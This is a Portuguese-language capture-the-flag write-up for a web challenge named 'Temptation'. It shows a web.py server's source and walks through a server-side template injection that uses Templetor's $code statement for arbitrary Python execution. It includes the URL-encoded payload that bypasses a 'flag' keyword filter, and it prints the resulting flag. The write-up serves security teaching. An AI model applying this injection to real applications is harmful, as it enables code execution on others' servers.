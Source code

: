 # Temptation

*The attempted attempt to tempt the untempted into a tempting but contemptible scheme was an untempting temptation that exemplified not only contempt but also a preemptive exemption from any redemptive attempts.*

- *Autor do writeup: [@jackskelt](https://github.com/jackskelt)*
- *Autor do desafio: [@gehaxelt](https://github.com/gehaxelt)*

> Você pode acessar os arquivos do desafio no nosso repositório
> <https://github.com/HawkSecUnifei/Writeups>


Ao acessar o site, nos deparamos com um campo de input e a pergunta: "Qual a sua tentação?"

![Página inicial](assets/home.png)


Ao digitar qualquer coisa e enviar, o site nos retorna a resposta: "Too tempted!"

![Muito atentato](assets/tempted.png)

Ao inspecionar o código da página, vemos um comentário

![Código da página inicial renderizada](assets/home-source.png)

Assim podemos acessar o código do backend ao mandar uma requisição para `/?source=1`

{% code title="" overflow="wrap" lineNumbers="true" %}

```py
import web
from web import form
web.config.debug = False
urls = (
  '/', 'index'
)
app = web.application(urls, locals())
render = web.template.render('templates/')
FLAG = open("/tmp/flag.txt").read()

temptation_Form = form.Form(
    form.Password("temptation", description="What is your temptation?"),
    form.Button("submit", type="submit", description="Submit")
)

class index:
    def GET(self):
        try:
            i = web.input()
            if i.source:
                return open(__file__).read()
        except Exception as e:
            pass
        f = temptation_Form()
        return render.index(f)

    def POST(self):
        f = temptation_Form()
        if not f.validates():
            return render.index(f)
        i = web.input()
        temptation = i.temptation
        if 'flag' in temptation.lower():
            return "Too tempted!"
        try:
            temptation = web.template.Template(f"Your temptation is: {temptation}")()
        except Exception as  e:
            return "Too tempted!"
        if str(temptation) == "FLAG":
            return FLAG
        else:
            return "Too tempted!"
application = app.wsgifunc()
if __name__ == "__main__":
    app.run()
```

{% endcode %}

O código é um servidor `web.py`. Não podemos colocar o texto "flag" na entrada, que é adicionada a um template, de forma insegura

{% code title="" overflow="wrap" lineNumbers="true" %}

```py
temptation = web.template.Template(f"Your temptation is: {temptation}")()
```

{% endcode %}

Para obtermos a flag, precisamos que o texto resultado do template seja `"FLAG"`. O sistema de template do `web.py` é chamado [Templetor](https://webpy.org/docs/0.3/templetor), e, como a nossa entrada está sendo passada de forma insegura, podemos aproveitar de funcionalidades do sistema de templates para a execução de código. Nesse caso, podemos utilizar o statement [`$code`](https://webpy.org/docs/0.3/templetor#code) para execução arbitrária de código python. Nossa payload fica dessa maneira:

{% code title="" overflow="wrap" lineNumbers="true" %}

```py
$code:
    self = 'F''LAG'
```

{% endcode %}

Para enviar, temos que nos atentar em algumas coisas:
- Python é uma linguagem orientada a identação, então para o bloco funcionar, precisamos de uma quebra de linha após o `$code` e um `\t` de espaçamento antes do `self`
- O statement `$code` só funciona se for o início da linha, então precisamos de uma quebra de linha inicial, pois o início da primeira linha é `"Your temptation is: "`.

Dito isso, teremos basicamente o código a seguir:

{% code title="" overflow="wrap" lineNumbers="true" %}

```py
\n
$code:\n
\tself = 'F''LAG'
```

{% endcode %}

Agora temos que fazer um URL encoding para passar como parâmetro. Temos que o `\n` é `%0a` e o `\t` é `%09`, ficando com a seguinte payload
```
%0a$code:%0a%09self%20=%20'F''LAG'
```

Enviando como POST, recebemos a flag
```
ENO{T3M_Pl4T_3S_4r3_S3cUre!!}
```

![Requisição feita pelo BurpSuite, obtendo a flag](assets/flag.png)